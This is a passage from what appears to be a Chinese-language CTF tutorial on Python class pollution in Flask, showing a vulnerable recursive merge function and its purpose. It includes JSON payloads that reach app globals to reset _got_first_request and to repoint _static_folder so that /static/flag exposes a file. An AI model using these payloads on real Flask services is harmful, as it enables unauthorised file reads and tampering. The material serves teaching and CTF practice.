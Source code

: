 `before_first_request`修饰的`init`函数只会在第一次访问前被调用，而其中读取`flag`的逻辑又需要访问路由`/`后才能触发，这就构成了矛盾。所以需要使用`payload`在访问`/`后重置`_got_first_request`属性值为假，这样`before_first_request`才会再次调用。

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "_got_first_request": false
            }
        }
    }
}
```

访问两次即可。

### `_static_url_path`&`_static_folder`

`_static_folder`这个属性中存放的是`flask`中静态目录的值，默认该值为`static`。访问`flask`下的资源可以采用如`http://domain/static/xxx`去访问

`_static_url_path`是访问静态文件的url路径规则，默认也是`static`

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "_static_folder": "./"
            }
        }
    }
}
```

接着访问`/static/flag`

### `os.path.pardir`

这个`os`模块下的变量会影响`flask`的模板渲染函数`render_template`的解析

```python
from flask import Flask, request, render_template
import json
import os

app = Flask(__name__)


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


class cls:
    def __init__(self):
        pass


```